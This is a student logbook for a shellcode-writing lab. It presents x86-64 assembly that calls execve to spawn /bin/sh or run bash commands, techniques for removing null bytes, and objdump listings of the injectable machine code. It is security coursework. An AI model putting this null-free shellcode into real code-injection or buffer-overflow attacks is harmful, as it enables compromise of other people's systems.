


# Logbook for Lab 01 - Writing Shellcode

## Purpose

The purpose of this lab is to introduce the fundamentals of writing shellcode, facilitating the understanding of various techniques essential for code injection attacks. By exploring assembly language and addressing challenges such as avoiding null bytes and managing data addresses, this lab aims to develop practical skills in creating and manipulating machine code, as well as extracting shellcode from executable files.

## Task 1 - Writing Assembly Code

To gain direct control over shellcode instructions, we used assembly language in the arm64 architecture. The content of our `hello.s` file was the following:

```text
global _start

section .text

_start:
    mov rdi, 1          ; the standard output
    mov rsi, msg        ; address of the message
    mov rdx, 15         ; length of the message
    mov rax, 1          ; the number of the write() system call
    syscall             ; invoke write(1, msg, 15)
    mov rdi, 0          ;
    mov rax, 60         ; the number for the exit() system call
    syscall             ; invoke exit(0)

section .rodata
    msg: db "Hello, world!", 10
```

After compiling with the Intel assembler `nasm` and linking it, we were able to run the assembly code:


However, it was also important to understand the execution of the corresponding machine code, as in most attacks, the shellcode is derived from the machine code equivalent to the executable. To extract the machine code from the executable on Intel machines and print out the content of the binary file:

```sh
$ objdump -Mintel -d hello.o
$ xxd -p -c 20 hello.o
```


## Task 2 - Writing Shellcode (Approach 1)

Since the purpose of the shellcode is to invoke a shell within the system, it uses the `execve()` system call:

```c
execve("/bin/sh", argv[], 0)
```

In the amd64 architecture, they are passed through the `rdi`, `rsi`, and `rdx` registers. In pseudo-code:

```js
let rdi = address of the "/bin/sh" string
let rsi = address of the argv[] array
let rdx = 0
let rax = 59    // 59 is execve’s system call number
syscall         // Invoke execve()
```

In order to manipulate the `argv` arguments, we needed to obtain the address of the "/bin/sh" string and the address of the array. In this task, we were able to store both the string and the array in the code segment, using the PC register, which points to the code segment.

### Task 2.A - Understanding the code

The content of our `mysh64.s` was the following:

```text
section .text
    global _start
        _start:
            BITS 64
            jmp short two
    one:
        pop rbx
        mov [rbx+8],  rbx   ; store rbx to memory at address rbx + 8
        mov rax, 0x00       ; rax = 0
        mov [rbx+16], rax   ; store rax to memory at address rbx + 16
        mov rdi, rbx        ; rdi = rbx (1)
        lea rsi, [rbx+8]    ; rsi = rbx + 8 (2)
        mov rdx, 0x00       ; rdx = 0
        mov rax, 59         ; rax = 59
        syscall
    two:
        call one
        db ’/bin/sh’, 0     ; The command string (terminated by a zero) (3)
        db ’AAAAAAAA’       ; Place holder for argv[0]
        db ’BBBBBBBB’       ; Place holder for argv[1]
```

```bash
$ nasm -g -f elf64 -o mysh64.o mysh64.s
$ ld --omagic -o mysh64 mysh64.o
```

After compiling the code, using the instructions above, we saw that the shellcode was successfully targeting one shell:


Using `gdb` command we found the address of the "/bin/sh" string in the code:


When we jump to **two** we execute a call to one, but before jumping it saves the adresses of the following lines onto the stack. Essentially we load the string's adress on stack so we can reference later. And then we pop the top of the stack in the line **pop rbx** so we can access those loaded values. So, in the code above, line with **(1)** is loading the **"/bin/sh"** to the rdi to be used by the execve, line **(2)** is acessing the next stored value on the stack and finally **(3)** is used to load the string to the stack through the use of the **call** function.



We observed that the code creates space with placeholders for the `argv` arguments and then injects them by moving memory positions with an 8-byte offset, previously created. This allows the arguments to be copied into the selected memory locations.

### Task 2.B - Eliminate zeros from the code

The sample code provided in the previous section is not a true shellcode, because it contains several zeros. These zeroes, when run as a shellcode, will cause the execution to stop early and the exploit will be incomplete. Using the `objdump` code we found all the instructions that have zeros in the machine code:


And then we were able to solve it rewriting our `mysh64.sh`, using XOR commands to write the zeros implicitly. To remove the Null terminator of the string, we replaced it with a **0xFF** and then replacd it with a null **al** later in the code as we can see bellow:

```text
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx
        xor al, al 
        
        mov [rbx+7], al
        
        mov [rbx+8], rbx ; store rbx to memory at address rbx + 8
        xor rax, rax ; rax = 0
        mov [rbx+16], rax ; store rax to memory at address rbx + 16
        
        mov rdi, rbx ; rdi = rbx 
        lea rsi, [rbx+8] ; rsi = rbx + 8 
        
        xor rdx, rdx ; rdx = 0
        xor rax, rax
        mov rax, 59 ; rax = 59
        syscall
    two:
        call one
	db '/bin/sh', 0xFF ; The command string (terminated by a zero) 
	db 'AAAAAAAA' ; Place holder for argv[0]
	db 'BBBBBBBB' ; Place holder for argv[1]
```


### Task 2.C - Run a more complicated command

In this task, our goal was to execute a more complex run, involving multiple arguments.

```sh
$ /bin/bash -c "echo hello; ls -la"
```

For this, our approach was to combine XOR operations with more memory slots allocated. This was the content of the `mysh64.sh`:

```text
section .text
    global _start
        _start:
            BITS 64
            jmp short two
        one:
            pop rbx           
            xor rax, rax
            mov [rbx+9],  al
            mov [rbx+12], al
            mov [rbx+32], al  
            mov [rbx+33], rbx
            lea rcx, [rbx+10]
            mov [rbx+41], rcx
            lea rcx, [rbx+13]
            mov [rbx+49], rcx
            mov [rbx+57], rax
            mov rdi, rbx       
            lea rsi, [rbx+33]       
            xor rdx, rdx      
            xor rax, rax
            mov al, 0x3b        
            syscall
        two:
            call one                                                                   
            db '/bin/bash*'                 ; The command string (terminated by a *)
            db '-c*'                        ; The command string (terminated by a *)
            db 'echo Hello; ls -la    *'    ; The command string (terminated by a *)
            db 'AAAAAAAA'                   ; Place holder for argv[0] 
            db 'BBBBBBBB'                   ; Place holder for argv[1]
            db 'CCCCCCCC'                   ; Place holder for argv[2]
            db 'DDDDDDDD'                   ; Place holder for argv[3]
```

After running the command, we were able to successfully execute the desired shellcode:


We also confirmed that the resultant code contained no null bytes.



### Task 2.D - Pass environment variables

Since the third parameter of the `argv` arguments is a pointer to the environment variables array, we explored the possibility of passing environment variables to our shellcode. To achieve this, we constructed the code accordingly, constructing an environment variable array on the stack, and stored the address of this array to the rdx register, before invoking `execve()` system call;

```text
section .text
    global _start
        _start:
            BITS 64
            jmp short two
        one:
            pop rbx                         ; rbx now holds the return address (base pointer
            xor rax, rax
            mov [rbx+12], al
            mov [rbx+22], al
            mov [rbx+32], al
            mov [rbx+69], al
            mov [rbx+70], rbx
            lea rcx, [rbx+13]
            mov [rbx+78], rcx
            lea rcx, [rbx+23]
            mov [rbx+86], rcx
            lea rcx, [rbx+33]
            mov [rbx+94], rcx
            mov [rbx+102], rax
            mov rdi, rbx
            lea rsi, [rbx+70]
            lea rdx, [rbx+70]
            xor rax, rax
            mov al, 0x3b                    ; Syscall number for execve
            syscall
        two:
            call one                     
            db '/usr/bin/env*'              ; argv[0] - Correctly null-terminated
            db 'aaa=hello*'                 ; argv[1] - Correctly null-terminated
            db 'bbb=world*'                 ; argv[2] - Correctly null-terminated
            db 'ccc=hello world*'           ; argv[3] - Correctly null-terminated
            db 'AAAAAAAA'                   ; Placeholder for argv[0]
            db 'BBBBBBBB'                   ; Placeholder for argv[1]
            db 'CCCCCCCC'                   ; Placeholder for argv[2]
            db 'DDDDDDDD'                   ; Placeholder for argv[3]
            db 'EEEEEEEE'                   ; Null
```

The result was the following:


We also confirmed that the resultant code contained no null bytes:


## Task 3: Writing ShellCode (Approach 2)

### Task 3.A

This task consists of performing Task 2.c (creating a shellcode that executes the command `echo hello; ls -la`) using a different approach. For this task, the shell string and argv are supposed to be built dynamically on the stack, which in this case would be `/bin/bash` and `echo hello; ls -la` respectively.
The code developed for this task and the result of its execution are presented below:

```
section .text
global _start

_start:
    xor rdx, rdx

    ; Push the command string: "-c echo hello; ls -la"
    push rdx
    
    xor rax, rax
    mov rax, "la"
    push rax
    
    
    xor rax, rax
    mov rax, "lo; ls -"       ; "part of hello and ls"
    push rax
    
    xor rax, rax
    mov rax, "echo hel"       ; "echo hello"
    push rax
    
    mov rcx, rsp 
    
    xor rax, rax 
    mov rax, "-c"               ; "-c"
    push rax
    
    mov rbp, rsp

    xor rax, rax
    mov rax, "h"
    push rax
    
    
    xor rax, rax
    mov rax, "/bin/bas"
    push rax
    
    
    mov rdi, rsp                    ; rdi = address of "/bin/bash"

    
    push rdx            ; Push NULL as the end marker for argv[]         
    push rcx            ; Push the address of "echo hello; ls -la" as argv[2]
    push rbp            ; Push the address of "-c" as argv[1]
    push rdi            ; Push the address of "/bin/bash" as argv[0]
    
    mov rsi, rsp


    xor rax, rax
    mov al, 59                      ; execve syscall number (59)
    syscall
```
After running the command, we were able to successfully execute the desired shellcode. To remove the zeroes we had to further alter the above code to this:

```text
section .text
global _start

_start:
    xor rdx, rdx

    ; Push the command string: "-c echo hello; ls -la"
    push rdx
    
    xor rax, rax
    mov rax, 0xFFFFFFFFFFFF616c
    shl rax, 48
    shr rax, 48
    ;mov rax, "la"
    push rax
    
    
    xor rax, rax
    mov rax, "lo; ls -"       ; "part of hello and ls"
    push rax
    
    xor rax, rax
    mov rax, "echo hel"       ; "echo hello"
    push rax
    
    mov rcx, rsp 
    
    xor rax, rax 
    mov rax, 0xFFFFFFFFFFFF632d
    shl rax, 48
    shr rax, 48
    ;mov rax, "-c"               ; "-c"
    push rax
    
    mov rbp, rsp

    xor rax, rax
    mov al, "h"
    push rax
    
    
    xor rax, rax
    mov rax, "/bin/bas"
    push rax
    
    
    mov rdi, rsp                    ; rdi = address of "/bin/bash"

    
    push rdx            ; Push NULL as the end marker for argv[]         
    push rcx            ; Push the address of "echo hello; ls -la" as argv[2]
    push rbp            ; Push the address of "-c" as argv[1]
    push rdi            ; Push the address of "/bin/bash" as argv[0]
    
    mov rsi, rsp


    xor rax, rax
    mov al, 59                      ; execve syscall number (59)
    syscall
```

We had a problem when we pushed strings that did not fill the 8 bytes, such as **-c**, **la** and **h**. To resolve this we saved the **h** to al, which keeps the least significant byte of rax. For **-c** and **la** we could not use the same method as they ocupy 2 bytes. So, for these ones, we converted them to hex and added **0xFF** as padding, we then simply shifted left and right 48 bits and got the string to have padding **0x00**. Using these 2 methods we were able to remove all nulls as we can see bellow:

```text
alt_mysh64.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:	48 31 d2             	xor    rdx,rdx
   3:	52                   	push   rdx
   4:	48 31 c0             	xor    rax,rax
   7:	48 c7 c0 6c 61 ff ff 	mov    rax,0xffffffffffff616c
   e:	48 c1 e0 30          	shl    rax,0x30
  12:	48 c1 e8 30          	shr    rax,0x30
  16:	50                   	push   rax
  17:	48 31 c0             	xor    rax,rax
  1a:	48 b8 6c 6f 3b 20 6c 	movabs rax,0x2d20736c203b6f6c
  21:	73 20 2d 
  24:	50                   	push   rax
  25:	48 31 c0             	xor    rax,rax
  28:	48 b8 65 63 68 6f 20 	movabs rax,0x6c6568206f686365
  2f:	68 65 6c 
  32:	50                   	push   rax
  33:	48 89 e1             	mov    rcx,rsp
  36:	48 31 c0             	xor    rax,rax
  39:	48 c7 c0 2d 63 ff ff 	mov    rax,0xffffffffffff632d
  40:	48 c1 e0 30          	shl    rax,0x30
  44:	48 c1 e8 30          	shr    rax,0x30
  48:	50                   	push   rax
  49:	48 89 e5             	mov    rbp,rsp
  4c:	48 31 c0             	xor    rax,rax
  4f:	b0 68                	mov    al,0x68
  51:	50                   	push   rax
  52:	48 31 c0             	xor    rax,rax
  55:	48 b8 2f 62 69 6e 2f 	movabs rax,0x7361622f6e69622f
  5c:	62 61 73 
  5f:	50                   	push   rax
  60:	48 89 e7             	mov    rdi,rsp
  63:	52                   	push   rdx
  64:	51                   	push   rcx
  65:	55                   	push   rbp
  66:	57                   	push   rdi
  67:	48 89 e6             	mov    rsi,rsp
  6a:	48 31 c0             	xor    rax,rax
  6d:	b0 3b                	mov    al,0x3b
  6f:	0f 05                	syscall 
```

### Task 3.B

The choice between the two approaches depends on several factors, as well as the system you want to use.
Approach 1 (storing the string and matrix in the code segment) has the advantages that the code can directly reference the data using relative offsets (no need to use stack operations) and ends up being simpler and there are fewer instructions, since the data is already in the code.
However as it uses static data, the shellcode is not position-independent, so encoding fixed data in the code segment can expose the location of the strings, is also easier to detect (by tools that look for patterns and static strings) and limits the flexibility of the code.
Approach 2, on the other hand, is more flexible, i.e. it allows the dynamic modification of data at runtime, giving more control over what is executed and is position-independent because the data is created dynamically in relation to the stack pointer. But this approach is more complex and the shellcode is larger, requiring extra instructions to build and manage the data on the stack.
So for simpler scenarios, such as this lab, it is preferable to use Approach 1, but for highly constrained or hardened environments it is better to use Approach 2.

## Conclusion

With this lab we were able to write our own shellcode in two different methods: storing strings and arguments directly in the code and constructing them dynamically on the stack. We also learned how to restructure the code as to prevent all **0x00(null)** from appearing as they signify the end of a string and make the code unusable as an exploit. We are now ready to use these techniques on vulnerabilities like buffer overflow.